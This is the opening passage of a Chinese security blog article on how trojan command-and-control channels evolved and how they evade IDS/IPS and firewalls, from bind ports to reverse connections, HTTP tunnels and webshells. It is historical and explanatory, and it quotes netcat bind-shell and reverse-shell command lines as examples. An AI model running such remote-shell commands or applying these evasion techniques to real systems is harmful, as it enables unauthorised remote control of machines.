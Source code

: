 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/X_qPqmpx6uGAs6Y84rV8Jg)

![图片](https://mmbiz.qpic.cn/mmbiz_gif/JMH1pEQ7qP5Co7fUd2c3L7tue4snVhaibxQa85joMyLv1AehFUL4ftMvofKcrSdITtb1R7RBodibJdlibalvWor3Q/640?wx_fmt=gif)

**文｜**lake2

**前言**

这是前文《网络层绕过 IDS/IPS 的一些探索》[1] 的延续，当时就想可以用四层以下的协议实现木马通信绕过各类 IDS/IPS 的检测，一直没有找到时间测试，正好这次攻防演练值守期间有了机会。

标题之所以用 “匿名信使”，是因为很久以前有一款利用 Windows 下 net send 自动化批量发送消息的软件叫做匿名信使——当年 net send 发送的匿名消息在 Windows2000/XP 下大行其道，现在发现居然这个命令都不存在了（Vista 以后已经被 msg 命令替代），致敬作者和那个时代。

**木马常用通信协议对抗进化**

**1. 第一代木马**

国内第一代木马是什么？必须是国内最早最权威的安全社区 xfocus 团队成员 glacier 出品的冰河。  

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP5Co7fUd2c3L7tue4snVhaibd8tPibjQGN2p37clNyUSpO91icBrw5iaVgRV84BhWSUcicD7nY2l144zjA/640?wx_fmt=png)

 _冰河的界面，是不是跟 XScan 很像，因为是同一个作者。_

 _图源网络_

冰河会开放主机的 TCP 7626 端口等待服务端控制。这是第一代木马被动通信模式：开放端口（主要是 TCP 端口，当然也可以用 UDP），类似使用 nc -l -p 7626 -e cmd.exe 。

开端口这个方式的弊端就是要在主机开放端口，netstat 命令或者主机防火墙很容易就发现开了个端口，同时如果被控端在内网或者有防火墙就没有办法连上。

**2. 第二代木马**

于是就很快进化出第二代木马主动通信模式（反向连接，典型代表是葛军的灰鸽子）：不开端口，由木马反向去连接服务端，nc -e cmd.exe IP 8000，这个模式较之上一代优势很明显，被控端在内部网络也能穿透防火墙或 NAT，当年防火墙对出站检查比较松，特别是端口使用 TCP 80，让防火墙以为是在浏览网页，颇具迷惑性。

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP5Co7fUd2c3L7tue4snVhaibosogg9qRxKybRjIFYFz2jP6FxhDWkEM6TFIKIBkWc8NoSdSHKczK5g/640?wx_fmt=png)

 _灰鸽子界面，图源百度_   

但是很快安全系统的策略也跟上了，因为这个模式要产生一条 TCP 出站通信，基于主机的安全软件可以实时拦截进程的网络行为（还记得天网防火墙吗）。

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP5Co7fUd2c3L7tue4snVhaib7mmDKoOic4g64ticfJDkg0FNhxia62oh4FwibibNVwuTPEWcc2dib17ibsCjQ/640?wx_fmt=png)

_曾经风靡一时的天网防火墙。_

 _图源网络_ 

**3. 第三代木马**

第三代木马通信开始使用常见应用层协议迷惑防火墙（灰鸽子会在 Windows 下以 DLL 形式注入浏览器进程，通信协议也伪装成了 HTTP 还直接调用浏览器里设置的代理），常见的方法就是使用 HTTPTunnel 把 TCP 协议转成 HTTP 协议，绕过防火墙。

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP5Co7fUd2c3L7tue4snVhaibtdthCAxOIl9KlsqHLEg9m1aiaLcHpkH5rZwfXSOtV4picVicKvMhgUkzQ/640?wx_fmt=png)

 _HTTP 协议穿过防火墙 / HTTP 代理。_

_图源 http-tunnel_ 

后来随着业务形态的发展，还真的有了使用 HTTP 协议的木马——WebShell。
